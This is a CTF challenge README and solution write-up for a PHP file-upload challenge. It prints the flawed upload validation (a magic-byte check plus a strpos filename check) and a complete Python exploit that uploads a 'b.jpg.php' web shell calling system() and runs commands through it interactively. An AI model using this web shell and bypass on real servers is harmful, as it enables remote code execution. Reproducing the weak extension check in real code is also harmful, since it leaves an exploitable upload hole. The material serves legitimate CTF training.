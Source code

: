 # The Evil Assignment on Canvas 😈

## 1. Description

Oh noooo, when you're "chilling" with this CTF, your evil professor throws an impossible assignment on Canvas at you, and it's due TOMORROW!

The only way to pass this course is to pwn him!! The show will never end! 

### Guide: 
1. Turn on your Docker instance. 
2. Access: `http://14.225.211.39:$PORT` where `$PORT` is the port number given by the system.
3. pwn!

### Notes
+ The `revert` button only refresh the Docker instance for you, not to be used for deleting the containers.
+ Because of performance-critical reasons, we will shut down all of the containers periodically (2-4 hours). We will put announcement when we nuke all of the containers :)

Author: `@sashaNull`

## 2. Build

```bash
docker build -t evil_assignment_on_canvas . 
```

In order to make it only release 1 port, please use [`docker-copyedit`](https://github.com/gdraheim/docker-copyedit) to remove two required ports 8000 and 433. 

## 3. Solution

> Author: @teebow1e from hust3r

This challenge is a blackbox challenge, however, I will explain this in the white-box perspective since the solution is really straight-forward (if you have experience in File Upload vulnerability).


When access the challenge, we are given an upload form, which only accepts small-sized JPG/JPEG. This is the code checking if we upload a *"good"* file:
```php
<?php                  
    $magic_num_handler = file_get_contents($_FILES['uploadedfile']['tmp_name']);
    if(bin2hex(substr($magic_num_handler, 0, 3)) != "ffd8ff")
    {
            if(isset($_FILES['uploadedfile'])){
        echo "<p>Sorry, your submission is not recognized as a JPEG file by the back-end!</p>";
    }                 
        exit;
    } 

    $fileName = pathinfo($_FILES['uploadedfile']['name'])['basename']; 
    if (strpos($fileName, '.jpg') == false && strpos($fileName, '.jpeg') == false)
    {
            if(isset($_FILES['uploadedfile'])){
        echo "<p>Sorry, your submission is not recognized as a JPEG file by the back-end!</p>";
    }                 
        exit;
    }
```

- First, it checks the [magic byte](https://en.wikipedia.org/wiki/List_of_file_signatures) - the byte determining the file type. In order to bypass this, I just simply grab a legit JPG file on the Internet and submit to the form.

- Next, we have the code checking if `.jpg` or `.jpeg` exists in the filename. This is really dangerous because file name can contain more than 1 dot sign (which seperate the name and extension). Therefore, I can simply write a file named "a.jpg.php" and this is considered *valid* in the server side.


![](assets/strpos%20php.png)

At this point, we got enough ingredients. Let's cook the exploit script:
```python
import requests
import re
from urllib.parse import quote

url = "http://14.225.211.39:51419"

burp0_headers = {
    "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryijBAyAxAcQzDE3Xx"
}
burp0_data = """------WebKitFormBoundaryijBAyAxAcQzDE3Xx\r\nContent-Disposition: form-data; name="MAX_FILE_SIZE"\r\n\r\n100000\r\n------WebKitFormBoundaryijBAyAxAcQzDE3Xx\r\nContent-Disposition: form-data; name="uploadedfile"; filename="b.jpg.php"\r\nContent-Type: image/jpeg\r\n\r\n\xff\xd8\xff\xe0\x00\x10JFIF<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>\r\n------WebKitFormBoundaryijBAyAxAcQzDE3Xx--\r\n"""
r = requests.post(url + "/index.php", headers=burp0_headers, data=burp0_data)
result = r.text
if "File is valid" in result:
    print("[+] Upload webshell complete.")
else:
    print("[!] Something went wrong while uploading webshell.")

while True:
    cmd = quote(input("[?] Command you want to run: "))
    webshell = requests.get(url + f"/uploads/b.jpg.php?cmd={cmd}").text
    result = (
        re.search(r"<pre>(.*?)</pre>", webshell, re.DOTALL).group(1).strip()
        if re.search(r"<pre>(.*?)</pre>", webshell, re.DOTALL)
        else None
    )
    print(result)
```
